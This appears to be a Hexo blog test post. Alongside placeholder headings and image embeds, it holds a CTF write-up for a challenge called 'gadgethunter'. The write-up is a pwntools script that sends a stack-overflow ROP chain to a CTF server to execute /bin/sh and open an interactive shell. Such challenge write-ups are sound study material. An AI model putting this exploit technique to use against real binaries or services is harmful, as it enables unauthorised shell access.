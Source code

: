 ```yaml
---
title: test
date: 2025-07-24 19:19:42
tags: test
categories:
    - 教學
keywords:
    - hexo
    - blog
    - 部落格
    - github
description: "這是一則關於文章的簡要說明"
---
```


# test1

## test2

### test3

-   img
    <!-- ![image1](./test/frostbean_thinking.jpg)
    ![image2](test/frostbean_thinking.jpg) -->
    ![image3](frostbean_thinking.jpg)
    <!-- ![image2](frostbean_thinking.jpg) -->

### gadgethunter writeup

```python
from pwn import *

# con = process("./gadgethunter")
con = remote("ctf.adl.tw", 10004)

buf_addr = 0x4c6170
# buf = b'/bin/bash\x00'
pop_rdi = 0x0000000000401ebf # : pop rdi ; ret
pop_rsi = 0x0000000000409eee # : pop rsi ; ret
pop_rax_rdx_rbx = 0x0000000000485c0a #: pop rax ; pop rdx ; pop rbx ; ret
bin_bash = 0x7fffffffdb60 #0x7ffeded74890
pop_rsp = 0x000000000040231e #: pop rsp ; ret
syscall = 0x0000000000401c74 # : syscall
add_al_11_mov_rax8_rdx = 0x00000000004520a1 #: adc al, 0x11 ; mov qword ptr [rax + 8], rdx ; ret
payload = b'a'*40 + p64(pop_rax_rdx_rbx) + p64(0x4c6157) +b'/bin/sh\x00' + \
p64(0x0) + p64(add_al_11_mov_rax8_rdx) + p64(pop_rax_rdx_rbx) + p64(0x3b) + \
p64(0x0) + p64(0x0) + p64(pop_rsi) + p64(0x0) + p64(pop_rdi) + p64(buf_addr) + \
p64(syscall)

con.recvuntil(b'message:\n')
raw_input()
con.sendline(payload)
# sleep(0.1)
# con.sendline(buf)

con.interactive()
con.close()
```
### open_book_exam writeup
```python
# oh no, I can't publish this.
```
<!-- :::info
it's info
:::

:::danger
it's danger
::: -->
